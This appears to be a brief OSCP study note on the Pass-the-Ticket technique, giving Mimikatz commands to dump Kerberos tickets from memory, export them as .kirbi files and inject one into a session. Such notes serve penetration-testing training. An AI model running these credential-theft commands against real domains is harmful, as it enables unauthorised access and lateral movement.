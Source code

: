 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/5. Pass-the-Ticket/"}
---
```


----------
- Dumped tickets from memory may be exported and used anywhere
- Also, if the tickets belong to the current user no administrative privileges are needed

### Pass-the-Ticket using Mimikatz:
1. Start Mimikatz and enable debug.
2. Dump all Kerberos tickets from memory (including logged in users):
```
sekurlsa::tickets /export
```
3. List all dumped tickets:
```
dir *.kirbi
```
5. Inject any selected ticket:
```
kerberos::ptt ticket.kirbi
```
6. Examine ticket:
```
klist
```

